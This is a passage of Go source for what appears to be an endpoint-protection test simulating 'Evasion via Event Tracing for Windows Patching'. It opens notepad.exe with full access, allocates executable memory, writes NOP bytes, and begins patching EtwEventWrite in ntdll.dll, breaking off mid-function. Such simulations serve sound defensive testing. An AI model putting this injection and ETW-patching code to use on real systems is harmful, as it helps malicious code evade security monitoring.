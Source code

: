 ```go
func main() {
	Endpoint.Say("[+] Starting Evasion via Event Tracing for Windows Patching [+]")
	Endpoint.Start(test, cleanup)
}

func test() {
	procHandle := windows.Handle(0)
	var err error

	// start process
	cmd := exec.Command("notepad.exe")
	err = cmd.Start()
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to start process: %s", err))
		Endpoint.Stop(1) // ERROR
	}
	defer cmd.Process.Kill()

	// get process handle
	procHandle, err = windows.OpenProcess(windows.PROCESS_ALL_ACCESS, false, uint32(cmd.Process.Pid))
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to get process handle: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// allocate memory in target
	var remoteAddr uintptr
	remoteAddr, err = windows.VirtualAllocEx(procHandle, 0, 4096, windows.MEM_COMMIT, windows.PAGE_EXECUTE_READWRITE)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to allocate memory: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// write dummy data to allocate memory [NOP slide to simulate patching]
	dummyData := []byte{0x90, 0x90, 0x90, 0x90}
	var written uint32
	err = windows.WriteProcessMemory(procHandle, remoteAddr, &dummyData[0], uint32(len(dummyData)), &written)
	if err != nil || written != uint32(len(dummyData)) {
		Endpoint.Say(fmt.Sprintf("[-] Failed to write to process memory: %s", err))
		Endpoint.Stop(1) // ERROR
	}
	// Verify the memory was patched
	verifyMemoryPatch(procHandle, remoteAddr, dummyData)

	// Attempt to patch ETW functions
	patchETW()

	Endpoint.Say("[+] ETW patching executed successfully")
	Endpoint.Stop(101) // UNPROTECTED: Malicious behavior not blocked

}

func patchETW() {
	// patching ETW functions in ntdll.dll
	ntdll := windows.NewLazySystemDLL("ntdll.dll")
	etwEventWrite := ntdll.NewProc("EtwEventWrite")

	// allocate memory for patch
	mem, err := windows.VirtualAlloc(0, 4096, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
```